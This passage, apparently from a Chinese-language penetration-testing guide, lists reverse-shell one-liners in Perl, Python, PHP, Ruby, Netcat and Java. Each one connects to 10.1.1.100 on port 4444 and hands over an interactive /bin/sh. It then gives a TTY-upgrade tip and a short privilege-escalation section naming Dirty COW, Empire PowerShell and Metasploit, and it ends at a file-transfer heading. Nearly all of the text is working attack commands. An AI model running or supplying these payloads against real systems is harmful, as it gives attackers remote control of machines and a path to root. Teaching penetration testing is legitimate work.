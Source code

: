 +   **PERL**

```
perl -e 'use Socket;$ip="10.1.1.100";$prt=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($prt,inet_aton($ip)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

+   **Python**

```
python -c 'import socket,subprocess,os;skt=socket.socket(socket.AF_INET,socket.SOCK_STREAM);skt.connect(("10.1.1.100",4444));os.dup2(skt.fileno(),0); os.dup2(skt.fileno(),1); os.dup2(skt.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

说到 Python，如果你获得了远程 Shell，可以使用`python -c 'import pty; pty.spawn("/bin/sh")'`来生成 TTY Shell。

+   **PHP**

```
php -r '$sock=fsockopen("10.1.1.100",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

+   **Ruby**

```
ruby -rsocket -e'f=TCPSocket.open("10.1.1.100",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

+   **Netcat**

```
nc -e /bin/sh 10.1.1.100 4444
```

+   **Java**

```
rt = Runtime.getRuntime()
pc = rt.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.1.1.100/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
pc.waitFor()
```

# 权限提升

利用漏洞后，大多数情况下你将获得一个有限的 Shell。下一步是获取受害者机器上的管理员账户。为此，你需要选择以下方法之一：

+   将文件传输到受害者机器，以便获得 Root Shell（例如，Dirty COW）

+   复制粘贴适用于 Windows 操作系统的 PowerShell 有效载荷（例如，Empire PowerShell）

+   使用 Metasploit/Meterpreter 提升权限（参见*附录 B*）

+   手动搜索配置错误的参数，以便获得管理员/Root Shell

# 文件传输
